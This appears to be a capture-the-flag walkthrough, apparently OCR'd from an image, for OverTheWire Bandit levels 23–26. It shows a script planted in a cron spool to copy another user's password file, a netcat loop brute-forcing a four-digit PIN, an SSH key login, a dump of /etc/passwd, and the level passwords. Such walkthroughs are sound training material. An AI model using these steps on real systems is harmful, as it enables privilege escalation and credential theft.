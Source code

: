 ```bash
ls /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/hello23
cd /tmp/hello23
echo "#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/hello23/password" > level23.sh	# bandit 24 will run this file each 60s
chmod 777 level23.sh
touch password
chmod 777 password
cp level23.sh /var/spool/bandit24
# wait 1 min for cron job run
ls -la
cat password
```

| Username | Password |
| :--- | :--- |
| bandit24 | UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ |

```bash
nc localhost 30002	# connect to port 30002
mkdir /tmp/hello24
cd /tmp/hello24
vi level24.sh
```
```
#!/bin/bash

for i in {0000..9999};

do

    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
    
done | nc localhost 30002"
```
```bash
bash level24.sh
```

| Username | Password |
| :--- | :--- |
| bandit25 | uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG |

```bash
ls
ssh -i bandit26.sshkey bandit26@localhost
cat /etc/passwd
```
```
bandit0:x:11000:11000:bandit level 0:/home/bandit0:/bin/bash
bandit1:x:11001:11001:bandit level 1:/home/bandit1:/bin/bash
bandit10:x:11010:11010:bandit level 10:/home/bandit10:/bin/bash
bandit11:x:11011:11011:bandit level 11:/home/bandit11:/bin/bash
bandit12:x:11012:11012:bandit level 12:/home/bandit12:/bin/bash
bandit13:x:11013:11013:bandit level 13:/home/bandit13:/bin/bash
bandit14:x:11014:11014:bandit level 14:/home/bandit14:/bin/bash
bandit15:x:11015:11015:bandit level 15:/home/bandit15:/bin/bash
bandit16:x:11016:11016:bandit level 16:/home/bandit16:/bin/bash
bandit17:x:11017:11017:bandit level 17:/home/bandit17:/bin/bash
bandit18:x:11018:11018:bandit level 18:/home/bandit18:/bin/bash
bandit19:x:11019:11019:bandit level 19:/home/bandit19:/bin/bash
bandit2:x:11002:11002:bandit level 2:/home/bandit2:/bin/bash
```